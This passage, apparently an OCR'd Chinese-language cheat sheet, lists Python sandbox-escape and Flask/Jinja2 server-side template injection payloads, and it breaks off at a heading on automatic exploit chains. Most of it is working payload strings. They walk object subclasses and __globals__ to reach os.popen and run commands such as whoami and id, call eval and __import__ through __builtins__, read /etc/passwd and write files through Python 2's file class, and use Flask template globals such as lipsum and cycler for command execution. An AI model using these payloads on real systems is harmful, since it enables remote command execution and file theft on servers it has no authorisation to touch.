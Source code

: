 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

使用__import__下的os（python2不行)
```
可以使用 __import__ 的 os

"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```

__builtins__下的多个函数
```
__builtins__下有eval，__import__等的函数，可以利用此来执行命令

"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

利用python2的file类读取文件
```
在 python3 中 file 类被删除

# 读文件
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()
# 写文件
"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')
# python2的str类型不直接从属于属于基类，所以要两次 .__bases__
```

flask的内置函数
```
Flask内置函数和内置对象可以通过{{self.__dict__._TemplateReference__context.keys()}}查看，然后可以查看一下这几个东西的类型，类可以通过__init__方法跳到os，函数直接用__globals__方法跳到os。（payload一下子就简洁了）

{{self.__dict__._TemplateReference__context.keys()}}
#查看内置函数
#函数：lipsum、url_for、get_flashed_messages
#类：cycler、joiner、namespace、config、request、session
{{lipsum.__globals__.os.popen('ls').read()}}
#函数
{{cycler.__init__.__globals__.os.popen('ls').read()}}
#类
```

自动利用链
```
原理就是找到含有 __builtins__ 的类，然后利用
